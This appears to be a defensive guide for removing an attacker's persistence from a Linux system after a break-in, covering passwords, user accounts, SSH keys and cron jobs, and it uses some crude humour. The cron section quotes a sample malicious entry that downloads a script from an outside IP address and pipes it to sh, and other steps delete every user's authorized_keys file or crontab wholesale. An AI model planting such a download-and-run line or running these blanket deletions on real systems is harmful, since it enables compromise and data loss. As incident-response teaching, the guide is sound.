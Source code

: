 #### Removing persistence
Any decent hacker will have put a way to log back in once they are kicked. This is how you remove that.

##### Changing passwords
The very first thing you do is change your passwords for all accounts on the system. For example, to change the password for the `root` user:
```
sudo passwd root
```
You will not be asked for the old password. You just have to put in the new password twice. If time is of the essence and you need to edit multiple passwords, you can skip the verification process with
```
echo -e "hunter2\nhunter2" | sudo passwd root
```
Keep in mind that just like when you bust a nut to your anime waifu, it's a good idea to clear your history:
```
history -c
```
This way, any future attacker won't be able to discern your ~~ waifu ~~ password.

##### Removing new user accounts
If the hacker got access to a root account, they most likely will have created a new user. You can list the users with
```
cat /etc/passwd
```
Keep in mind there will be a lot of users here. *Make sure you know how this should look by default*.
To remove a user:
```
sudo userdel redteamuser
```

##### Removing ssh keys.
A smart hacker will upload an ssh key to your box so they can continue to log in. If you do not use ssh keys, issue the following command
```
sudo rm /home/*/.ssh/authorized_keys
```
to remove any ssh keys on the computer.

If you do use ssh keys, issue the above command and then restore your old `~/.ssh/authorized_keys` file.

##### Removing cron jobs.
If your system has `cron` installed, most likely the hacker will have put in a cron job along the lines of
```
* * * * * /usr/bin/curl --insecure https://62.62.62.62 | sh
```
First, remove any suspicious cron entries with:
```
sudo crontab -r [username]
```
Then, it's a good idea to deny non-root users from making cron jobs by adding
```
root
```
to `/etc/cron.allow` using your favorite text editor.
